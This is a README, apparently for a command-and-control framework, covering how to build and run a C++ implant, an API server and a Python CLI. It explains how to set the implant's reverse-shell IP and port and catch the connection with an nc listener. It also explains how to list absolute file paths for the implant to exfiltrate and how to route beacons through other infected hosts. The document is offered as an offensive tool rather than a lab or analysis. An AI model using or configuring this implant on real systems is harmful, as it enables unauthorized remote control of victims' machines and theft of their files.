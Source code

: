 # Command & Control

## Implant
```bash
cd client
```

### Dependency
You need to install the cpr library:
https://girishjoshi.io/post/using-cpr-for-making-http-requests-c++/ 

Possible issue:
```bash
./bin/prog: error while loading shared libraries: libcpr.so.1: cannot open shared object file: No such file or directory
```
https://stackoverflow.com/questions/480764/linux-error-while-loading-shared-libraries-cannot-open-shared-object-file-no-s

### Compile 
```bash
make
```

### Configuration


### Execution
```bash
make run
```

## Server
```bash
cd api
```

### Setup 
```bash
npm install
chmod +x setup.sh
./setup.sh
```

### Execution
```bash
just
```

## CLI

### Execution
```bash
python3 run.py
```

### How to get a reverse shell
You can configure the implant with the IP and PORT that you want.
Go to client/src/config.hpp:
```cpp
#define RS_IP YOUR_IP
#define RS_PORT YOUR_PORT
```

On your machine, you need to listen for a connection with *nc*
```bash
nc -lvnp RS_IP RS_PORT
```

### How to extract files

First you need to configure the implant, go to client/src/config.hpp
Add to the variable *file_to_extract* the abolute paths of the files you want to get.
```cpp
21: static const std::array<const char*, 1> file_to_extract({"/home/username/exemple"});
``` 

### Routing and Beacon

To take advantage of the routing componant of this C2 you need to configure the implant with all the IP addresses that you want to try to connect in the hope that one of them is infected and connected to internet.  
Go to client/src/config.hpp: Add to the variable *routing* all the IPs
```cpp
19: static const std::array<const char*, NUMBER_OF_IPs> routing({"127.0.0.1"});
```


# Author
Evan Clausse